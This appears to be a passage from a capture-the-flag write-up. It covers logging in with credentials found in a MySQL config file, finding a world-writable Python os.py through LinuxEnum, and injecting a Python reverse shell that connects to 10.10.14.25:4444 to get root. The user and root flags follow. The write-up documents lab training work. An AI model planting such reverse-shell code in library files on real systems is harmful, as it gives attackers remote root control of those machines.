![](https://lh3.googleusercontent.com/cSj8mtb9PmyyZRhM4Ikhn2KnvWbqJiLXqevHPbq6iS7pkZSLyCSpzPnAcoiNvhDwVLwYnuRViJ7eIzhCvDrkt9g3wY0a-NXIDWqCHqyorZS5CUwQiR8vKXWGLKXm-S9sH5H1I6SpVZCBGRs4kPvG0986GPwc_qIi2wkFX58gOhwxRuNkWwITGWPTBKROac4YiIhdtnhSunlKTWmxUIqcBvTKCwwKBUbl4RxLUFtya5C-LdJqp28A2A3qo5Ayzli-jRVE1pqFN_Ff87rEnoLfe2lHq0CWYx-7Czrz5uS_w8fVb6iq2G9YfC6eaRsEY6gPVUW3fV2p4RLZXnOgkeCkiWUDTo2j0X4kyD0BxrNk-sCmweEoHfj3Is8oE5yzxqioIJ-GUQoIa38hvN2VT3gi8bZnvcteh-CV-qQKqS1ASqSuD4LMYyFCMqMMgcQqp77av2LyuRAdbJ0qOPnWrKpW0017xnXOvPR8W6sn2bd_c4OFbQ9a7N_kQfUw77nmtc7EfwLqsk1ZL4fSiW8HNyWrVFcjjylq58TR2es-oWsrCVlUc02HNe7j01vUONdsL9CY7dvmj-wSdLoEbnZU1vhdDvwYBMHT9s-NJ7W7Rw2edb0WcRwn6_Sv4UcnfUaB4nY7XtUf_RMnGMnzdwKazPpAQXiLj7PutdOeZzTruJdtKsPO4-BSXgaw9KE=w749-h175-no)

We located the passwd for user friend on `/var/www/mysql_data.conf` and we SSH into it as user `friend`

```ruby
for development process this is the mysql creds for user friend
db_user=friend
db_pass=Agpyu12!0.213$
db_name=FZ
3/3
```
![](https://lh3.googleusercontent.com/3GK64luu8NpgdtG7ESqduNCB37GBSAgzNPboIBvPXyd7BmQjmEj5ux51z32yZN6OOZPh572oMFlMjaNAsfc0c7vxFTSTsBPVdZ4mQps7jhDEx196LK1Z2P5Io7beqkdNqsokPINycx1VH6Pt7sNgQEgCMVeGLjfk8PDbAl5QoTDFr_KMNcWkq1VC865fu01Aq9q8oRwnu1LC-sSMoVUqEllASE-WaJB_sCVhVluVUzvle6ZIP78kmh24BEWY18FGV5Mo3Yy71IbvUqzhyjl_j2CvQ0aUwYdNtgWeM5hRU3KqgKeD0iFeJymYyOukS1KyFv2GFrHOzaNKL1F349yLnqJO5MAWJkpFEC5f_yCSVpCWp8SKlcg_ZlPAyr9X9uWfNTQGD7ONeHMPUWOUkKPCJGhASIrz-qj_OXOkp_NmbZwSDTqZ8v8PbKkGaoSiuLVHBxFnmDtqxVlFmtZE8x_dqird8o9ImXfyRiQmkjR28N0aI5g0Ie--wXnmjr7SYXVlY5ux2R1ZjpphguCk2M_Z5g2MZwRUx0PJkiZ0WBo65IqElpTM6zitJLo3T7nitmJTXuziPOtrGGO7Yl_wLDB0cqpF0e61RI7Z__fklSK0DXdnr7AljGrwwhHAaiE_LbLsOAOzvNJaSMT2OzIURgRf-Yw7DwQ8jzMjd0pYFn5Btzn0BlECCv9V-oM=w649-h171-no)

We run LinuxEnum script with `-t 1` and we got our potential escalation path
```ruby
[-] World-writable files (excluding /proc and /sys):
-rwxrw-rw- 1 nobody nogroup 5493 Nov 7 22:10 /etc/Development/reverseshell.php
-rwxrwxrwx 1 root root 25910 Jan 15 2019 /usr/lib/python2.7/os.py
```
![](https://lh3.googleusercontent.com/kHoJIDL0nmMYnV1GDn7fiQvNWXabrSYUlBiUG3e8De3dYOf1JrGM29b4fPLjjNPhT_3YfxhBMPo5y7aWqYprGTIQXei0_W2jHp9uvVFrfSNZ6eEAjIfQ1azFbm0OQLxYdOA0-UGPTOWlI36AjRkCtaHzQK1spy74Pz3tNC5pjPkVXeH2g0x2tkzJ07Wmdkln3nC60gnTsYK6Zc8DC3QiD5WcU7H10rq_-TYZAnYlgMEPC3h0CfGAXM0PSxvitaVNepV6GYCXMChJKsV6qBYKEI979lsQWZeQQI_tdk1r0wOj58bOlFTmuHC4oytp5HzUQ5r5AhFJZ2AItFuRWscfIpDXYkwiOIpeszDXX04yiBav2y_k_nj4bHayrta0MW2YZ1TAY3vH7N99DUarIIy-C65KGafWS8NKJBWiVJLq32a0PTKKWRUJvgeC4pErrHw5PWzI0d5hRfxekgCUyCBT3-5FO6NhPgi0X94fnQoOVuS90TxqSxcTJyAn1MkHIrqn0c0ZMWXCpiUE6_f0JiEf3Yg2NtLA89pbTgj66zzNl7UX0B_AlJ2dIsfSKUhU8A-78K16J051odIbNgqIm0us4ryEvrDxjuxIl7BhlUxmQwkteoscbWMal9TEBUn_cLi5NoGHHI_GLJ1w9-onZXETPRFKv6vaclnFC5aSnY5UaJtb2lJD-W6xL4g=w798-h77-no)

![](https://lh3.googleusercontent.com/8iZqoZmM6H3AtI8e9_hWdXQW8xKB06Z-2491MgD5oWRH0YSfKUtDFALgsZ0VF-yqFiv6qUs43PJecNn_vsfSxTT2b2mUaW9uOg-yG0r7LC-5vCDnpYx32wE8CZJIv--yYaFu98DgI6Olxmf6C0lE9dxC8xHlAQI816l_WW5uyAQPnQ9sPqBBOavFDjDbE118UBTUNsF7T4bOTPyqxBjr5ILJxWq9oZk8ctQmzw_VdYmluat0zsIpGGTHlyWpfSB6alHuL5bRSs5sF59QHLHgJdZ7_hQmKTH3cfW_AooPLDZYD9Os-6Dpqj2Lu_1OlLKqtivZwRd77O385KLTIq8oY89VV3bUmL5ucR003hRtgrWPUhmXbJ_fsZ3o-opviZ0ESIXlmebhLsD32YdsUoqLcQ0M6KCpILX0ll7YzS4zlLregJNfC8_Mis3qbYK8kvqB3EWYwAqqCc4Caky2-_yPQjWJkmJ3GejpL7xvboLHLV4hvOn76bZRSFuIAU-4DxXJfhetNMKivGvtbOlyIeI4t4DibJJf0RrrKeh9isE0q7BcAEeDcuy7GeroEuwxf3cSSrfly9_xSZzHTq4A25JuMyE0gASm7f9kM9_HZPkhsw-6NcJhcYfIRaLC7uUMGAyQB2HnIvJ0GSaNTXL7Tq7nczVSv_be74Vqq-jf2Q7FnpuZ_nIWwsa91nk=w682-h385-no)

so we modified the **os.py** file to call for a reverse shell 
```ruby
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.25",4444))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```
![](https://lh3.googleusercontent.com/lOJAI2dqne0qFUAWkZSRKgTOelCA-wD7YQOox7bjgELVd2PvmY-fwQWto_A_MY7Mik_tq4jYxVdbyQEejMJGw2HuIMW4sHjj0YEnALEHeM6asG-Qa4bpPIqWClfHGHqFfG9lHrwTwOT4TlbJYBEV5U3mcqfAHQi7pnwe82YI3aVxkKBH9JM5ltKQeXULfHQiVFoeN2b8l6nBP8n7uFYmB0c_O7wlEJ-tMWQG8k_oPcfgyuYo_mK9HZIYEpzGgG1PKMVfOYzkO5OH4tbWTV_ImTmz5oWXr0BX83ej8-oCZrIV_H0HICgWxvkJg7XV2WerBGbJIL2bJDIbr-cQbawxJ8_115lpoYnHZ7SDT1kigu6tp2Z78Ou8dMvR9655Y3ftjH8BU2eoZNBbDElsQqje4xKX5GuLEJvULoCXAOkmjiS23OO7j-6Q0K8RRX1lrmlpcl_FX_B6rSF2BWx5yM-GJ6k-E5wxiIcsYVFhtRJPHH97ex7KU_eJUxIN2f-aRQurLQNzKyyCW25JfF2TEa4-ozG5QgbmW4-eDPAQJCHoD8e5AfpkmJzb9rhSQXr_4GB4U07AFmdImOaUEOMyJsuxuVKUPrvvdgPc-BWyjYUET-mAMFOGF5ImzM2DlvzZ9fLABoG-hHEwRK-bZ-O0o46hti3IPrk1tJVRLTs_17bO62U-kWnUYBFSZrA=w613-h91-no)

and boom we got root!
![](https://lh3.googleusercontent.com/uHYnCo0a_DYr5YKA5NsYApwbZj7FYbpgLinVVUOtpVpJqpDlCFKEdcRJ3dfu_EDgupQqVFBMvOheqeREitb63ZC9qKMTRGTJJjvUHIWJ0qJsovxvcnFNN_PauqsqKQpruihdqrAMJr6dJgoOcwOIn9Rpzqockn-0qWfNE6i2B3M2ajtuYidpTn8Xicljzlm5tGtihAvWFZPqIGwBb3I2WQxvKg95LGE0e8dBh2GGmAEIyQ1rxKm4fPyytMQSleymb3reThsEz7AOkejmY3dhIr3I5i4_-H23-aBXPgZFWVRRkub9SRe6rZ-Op_fbJuj9uzIxPMXKGXioyXSCthzZGDBMaUxyYBT3BMKVaH204cH0N2sTA7jqrtD_iB6g6gj0QLDcBslFcoi4b8L1SVCVhncKput3AaXd4iSh9dM8byrEyhPsDZazPtR2rqvI9ppdMjCXsow4vkfCEkbAXfxdGsPQJBM-8t58cj1h0DlWGbC8InPb59xFXLdTDleqa8jooNc8y6RL_CadN-Avs5S7tNOffiEO12Rww6tylouZNTXYHwFkx5L7I4osgVYimginA97EFPShOVNnQtfCBYyzPs-sOGOzPwcoMjs5NaiGDn1vGcloTwGtNqwEAaS5VnFy8E4AzC87qfjZv9_3qYWnFsaYOHNeQ1JYrlM--zkA3SeS_9nl6THd0cQ=w613-h206-no)

# FLAGS
```ruby
ROOT  "b0e6c60b82cf96e9855ac1656a9e90c7"
USER  "a9ed20acecd6c5b6b52f474e15ae9a11"
```

